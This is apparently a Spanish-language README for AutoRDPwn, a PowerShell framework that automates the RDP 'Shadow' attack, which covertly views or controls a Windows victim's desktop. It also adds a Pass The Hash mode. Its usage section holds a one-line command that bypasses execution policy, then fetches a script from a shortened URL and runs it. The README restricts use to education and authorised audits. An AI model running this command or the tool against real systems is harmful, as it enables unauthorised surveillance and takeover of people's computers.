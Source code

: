 # AutoRDPwn: The Shadow Attack Framework

![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)

AutoRDPwn es un script creado en Powershell y diseñado para automatizar el ataque Shadow en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.

# Cambios

## Versión 3.0
• Modo de depuración deshabilitado

• Nuevo tipo de ataque disponible: Pass The Hash (Beta)

• Resolución de nombre de host remoto

• Corrección de errores

• Mejoras de código


*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
Ejecución en una línea:

powershell -ExecutionPolicy Bypass "iwr https://goo.gl/HSkAXP -Outfile %TEMP%\AutoRDPwn.ps1 ; %TEMP%\AutoRDPwn.ps1"

La guía detallada de uso se encuentra en los siguientes enlaces: 

https://darkbyte.net/autordpwn-the-shadow-attack-framework 

https://darkbyte.net/cambios-y-mejoras-en-autordpwn

# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• Mark Russinovich por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• Marc R Kellerman por su herramienta Invoke-CommandAs -> https://github.com/mkellerman/Invoke-CommandAs

• Stas'M Corp. por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net
